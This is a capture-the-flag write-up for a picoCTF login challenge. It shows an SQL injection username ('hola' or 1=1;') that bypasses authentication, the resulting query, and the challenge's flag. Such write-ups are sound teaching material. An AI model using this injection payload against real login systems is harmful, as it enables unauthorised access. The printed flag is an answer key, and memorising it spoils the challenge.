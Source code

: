 
## Descripción

There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!
Hints:
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.
## Solución 

~~~
username: hola' or 1=1;
password: admin
SQL query: SELECT * FROM users WHERE name='hola' or 1=1;' AND password='admin'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}

~~~

~~~
picoCTF{s0m3_SQL_fb3fe2ad}
~~~
## Notas adicionales 
Probamos inyectar código SQL en el campo de usuario con una condición siempre verdadera (`OR 1=1;`) para evadir la autenticación. El sitio no validaba correctamente las entradas, lo que nos permitió iniciar sesión sin credenciales válidas y obtener la bandera.
## Referencias
